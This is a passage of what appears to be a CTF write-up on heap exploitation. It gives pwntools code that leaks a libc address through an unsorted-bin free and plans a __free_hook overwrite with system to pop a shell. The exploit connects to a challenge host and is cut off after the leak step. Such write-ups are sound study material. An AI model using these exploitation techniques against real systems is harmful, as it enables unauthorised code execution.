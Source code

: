 ```python
nb = create(0)
# Bug: write_bin with size 0 will return 1 instead of a pointer.
write_bin(nb, '')
# This node can be overwritten with nb.text.
n1 = create(nb)
# Node that will be freed for the libc leak.
n2 = create(nb)
# Allocate >0x400 bytes so that the chunk will skip the tcache.
write_text(n2, 'X'*0x500)
# Create another node to avoid consolidation with the top chunk.
n3 = create(nb)
# Free node 2 for the unsorted bin leak: the freed chunk now contains pointers to the main arena.
disconnect(nb, n2)
gc()
# Craft n1 so that we can read the pointers from the heap.
crafted = craft(n1, text_idx=n1, text_len=0x100)
write_text(nb, crafted)
# Leak.
leak = read(n1)
```

### The exploit

In the following code we will omit the primitives for simplicity sake, the
complete script can be found
[here](https://gist.github.com/zommiommy/10207a8cb3900ec520d63b46046d47ab).

Now that we can leak a libc address and we have a write-what-where primitive we
can open a shell by either modifying the `.got.plt` or by overwriting one of the
hooks in the libc. We chose to overwrite the `__free_hook` since it's faster.

Steps to get a shell:

 - get the leak
 - craft the nodes for the arbitrary write
 - write the address of `system` in `__free_hook`
 - create a text with `/bin/sh\x00` and then free it

The full exploit:

```python

from pwn import *

libc = ELF('/lib/x86_64-linux-gnu/libc-2.31.so')
host = '13.231.226.137'
port = 9573

p = remote(host, port)

# Step 1: leak libc base.
# Prepare a root node for later. In the second step the DFS will go down here first,
# so it won't crash on the nodes we crafted in the first step.
na = create(0)
# Root node for step 1.
nb = create(0)
# Bug: write_bin with size 0 will return 1 instead of a pointer.
write_bin(nb, '')
# This node can be overwritten with nb.text.
n1 = create(nb)
# Node that will be freed for the libc leak.
n2 = create(nb)
# Allocate >0x400 bytes so that the chunk will skip the tcache.
write_text(n2, 'X'*0x500)
# Create another node to avoid consolidation with the top chunk.
n3 = create(nb)
```